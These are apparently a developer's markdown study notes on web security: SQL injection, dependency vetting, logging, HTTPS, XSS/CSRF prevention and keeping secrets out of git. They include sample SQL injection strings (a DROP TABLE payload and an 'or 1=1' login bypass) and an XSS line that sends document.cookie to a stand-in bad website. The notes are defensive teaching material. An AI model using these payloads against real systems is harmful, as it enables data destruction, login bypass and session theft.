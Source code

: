 # Security

## Important Topics

- injections
- 3rd party libraries
- logging
- HTTPS everywhere
- XSS & CSRF
- code secrets
- secure headers
- access control
- data management
- don't trust anyone
- authentication

## Injections

- injecting code elsewhere
  - most famous -> SQL injections
  - `''; DROP TABLE table_name; --`
  - `''; or 1=1--` -> for passwords
- images are injected into DOM after rendering
- `textnode` can help to textify and sanitise input

### How to avoid

- sanitise input (check inputs for expected inputs)
  - whitelist vs. blacklist
- parametrise queries (prepared statements)
  - pre-compile SQL statements
  - object relational mappers -> provide statements for us
- ORMs (object relational mappers) like Knex.js

## 3rd party libraries

- ensure that library is trustworthy
- check popularity (forks, stars, etc.) of package
- snyk is a tool to test node moudle dependencies

## Logging

- gather all information about user actions/behaviour
- **insufficient logging** can provide gap for hacker to take actions going unseen
- 2 packages for JS:
  - morgan (HTTP logger middleware)
  - winston (log everything)

## HTTPS everywhere

- SSL / TLS certificates
- https://letsencrypt.org/

## XSS & CSRF

### XSS - Cross-Side-Scripting

- allows attacker to execute script in client's server
- `window.location = 'new_bad_website?cookie='+ document.cookie`
- prevent through input sanitisation

### Cross Side Request Forgery

- create bad URL that has malicious code in it

### How to prevent

- sanitise inputs
- no `eval()`
- no `document.write()`
- [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [secure + HTTPOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

## Code secrets

- environmental variables
  - `process.env.NODE_ENV` by default
  - can define `.env` file for environmental variables
    - variables start with `REACT_APP_`
- commit history
  - NEVER add config files / passwords to git repo
